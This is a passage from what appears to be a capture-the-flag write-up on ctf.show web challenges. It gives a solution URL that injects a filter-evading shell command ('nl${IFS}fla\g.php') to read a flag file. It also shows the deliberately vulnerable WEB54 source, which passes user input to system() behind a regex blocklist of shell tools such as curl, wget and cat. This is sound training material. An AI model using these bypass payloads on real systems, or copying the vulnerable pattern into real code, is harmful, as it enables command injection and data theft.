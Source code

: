 ```php
http://9230984a-f7d7-4a49-8d1d-63f9f28fa8c4.challenge.ctf.show/?c=nl${IFS}fla\g.php
```

<figure><img src="../.gitbook/assets/image (28).png" alt=""><figcaption></figcaption></figure>

***

## <mark style="color:blue;background-color:orange;">(26)WEB54</mark>

```php
 <?php

/*
# -*- coding: utf-8 -*-
# @Author: Lazzaro
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-07 19:43:42
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|.*c.*a.*t.*|.*f.*l.*a.*g.*| |[0-9]|\*|.*m.*o.*r.*e.*|.*w.*g.*e.*t.*|.*l.*e.*s.*s.*|.*h.*e.*a.*d.*|.*s.*o.*r.*t.*|.*t.*a.*i.*l.*|.*s.*e.*d.*|.*c.*u.*t.*|.*t.*a.*c.*|.*a.*w.*k.*|.*s.*t.*r.*i.*n.*g.*s.*|.*o.*d.*|.*c.*u.*r.*l.*|.*n.*l.*|.*s.*c.*p.*|.*r.*m.*|\`|\%|\x09|\x26|\>|\</i", $c)){
        system($c);
    }
}else{
    highlight_file(__FILE__);
} 
```
